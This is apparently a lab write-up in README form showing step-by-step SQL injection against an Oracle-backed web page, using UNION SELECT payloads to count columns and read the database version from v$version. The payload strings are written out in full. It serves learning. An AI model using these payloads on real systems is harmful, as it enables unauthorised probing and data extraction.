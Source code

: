 # SQL-injection-attack-querying-the-database-type-and-version-on-Oracle

> # (1) To be sure that it has an sql vulnerability: url' -> internal server error. That means it has a vulnerability
    ![image](https://user-images.githubusercontent.com/59218362/208419556-a6f17621-237e-48f5-b8b2-6ed3921c833a.png)

> # (2) To know the number of column: 'ORDER BY 3-- -> internal server error. It means there are 2 columns
    ![image](https://user-images.githubusercontent.com/59218362/208419394-038bbc5a-d0b3-43b3-a354-62f0b5d009fb.png)
    ![image](https://user-images.githubusercontent.com/59218362/208419254-4f09eb82-d337-4da7-b75c-7421953397dd.png)

> # (3) To know which column is data retrieving: ‘UNION SELECT NULL,'Data'--. But got error. It is because the database is oracle
    ![image](https://user-images.githubusercontent.com/59218362/208419051-fa25dbc1-36fd-4a9e-96ff-9ddbb13abde3.png)

> # (4) To know data retrieve in oracle database: 'UNION SELECT 'sajib','rajib' FROM DUAL--. See we find out 2 both 2 column are retrieving data
    ![image](https://user-images.githubusercontent.com/59218362/208418870-00c353a4-c3b8-457c-bea7-3cc0eb951824.png)

> # (5) To know the version of oracle database: 'UNION SELECT banner, banner FROM v$version--. Here two banner is for the 2 columns.
    ![image](https://user-images.githubusercontent.com/59218362/208418752-2b3a8c05-feac-4081-9b64-f13c018b5a91.png)

